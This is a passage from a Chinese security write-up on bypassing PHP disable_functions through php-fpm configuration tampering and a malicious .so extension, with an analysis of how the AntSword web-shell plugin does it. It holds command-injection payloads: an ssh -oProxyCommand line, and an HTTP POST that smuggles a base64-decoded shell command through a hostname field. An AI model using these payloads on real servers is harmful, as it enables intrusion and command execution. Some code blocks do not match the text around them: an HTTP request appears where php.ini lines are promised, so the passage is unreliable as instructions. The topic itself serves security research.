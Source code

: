 也就是说我们构造的攻击包为：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1RibY9xcictaiasGlOYdkz6HwpVrLaTZ4hAYkY8G2lPPXmcMl1KvIc9l5A/640?wx_fmt=png)

很明显的前面所说的都是成立的；然而事实上我这里是没有加入 disable 的情况，我们往里面加入 disable 再尝试。

```
ssh -oProxyCommand="ls>test" 192.168.2.1
```

注意修改了 ini 文件后重启 fpm 需要指定 ini。

我往 disable 里压了一个 system：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo130MA4yasXeqJXEAibfibFT1aSulsyztCjYfYxNLyT1PwoLg2oczVO4JQ/640?wx_fmt=png)

然后再执行一下 exp，可以发现被 disable 了：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1l75Z9gSlHvfRwgeTQrrKQicibhudF3fRWwbPWvMrCaV8HPQ2StTezIlg/640?wx_fmt=png)

因此此种方法还无法达成 bypass disable 的作用，那么不要忘了我们的两个 php_value 能够修改的可不仅仅只是 auto_prepend_file，并且的我们还可以修改 basedir 来绕过；在先前的绕过姿势中我们是利用到了 so 文件执行扩展库来 bypass，那么这里同样可以修改 extension 为我们编写的 so 库来执行系统命令，具体利用有师傅已经写了利用脚本，事实上蚁剑中的插件已经能实现了该 bypass 的功能了，那么下面我直接对蚁剑中插件如何实现 bypass 做一个简要分析。

在执行蚁剑的插件时会发现其在当前目录生成了一个. antproxy.php 文件，那么我们后续的 bypass 都是通过该文件来执行，那么先看一下这个 shell 的代码：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1BuPpRia9RZYfx94DkeeJAWXiafPN1NXyOkNrParhms0w8jgE9LyPD8hg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1DLaX3BCYca663NoLyvPOVK9NBuvQ7ZTyeF5Y7JQwQcRmSBXm5ySxTg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1RwicbKmLjk4sabPEEwVcneQQyf2Flf3TiaHhwjgiaoCAicKyHeWiczoLaqA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo13gucZtNdB13UFSyItTUDjkJZfbaQr3ibL8E3BiaPuqcWj3cmwaPH6gOQ/640?wx_fmt=png)

定位到关键代码：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1u5Bo8pexNLJkp2FXsH30pXdIjcRe2shW6YZVbFqb8knap2oIMjjMtg/640?wx_fmt=png)

可以看到它这里向 60882 端口进行通信，事实上这里蚁剑使用`/bin/sh -c php -n -S 127.0.0.1:60882 -t /var/www/html`开启了一个新的 php 服务，并且不使用 php.ini，因此也就不存在 disable 了，那么我们在观察其执行过程会发现其还在 tmp 目录下上传了一个 so 文件，那么至此我们有理由推断出其通过攻击 php-fpm 修改其 extension 为在 tmp 目录下上传的扩展库，事实上从该插件的源码中也可以得知确实如此：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1ErPQPmUdkKMhOcwfp5kJXBDu3oOCR7qEriagYicA4NR56zxbjHiaV9yZw/640?wx_fmt=png)

那么启动了该 php server 后我们的流量就通过 antproxy.php 转发到无 disabel 的 php server 上，此时就成功达成 bypass。

#### 加载 so 扩展

前面虽然解释了其原理，但毕竟理论与实践有所区别，因此我们可以自己打一下 extension 进行测试。

so 文件可以从项目中获取，根据其提示编译即可获取 ant.so 的库，修改 php-fpm 的 php.ini，加入：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```
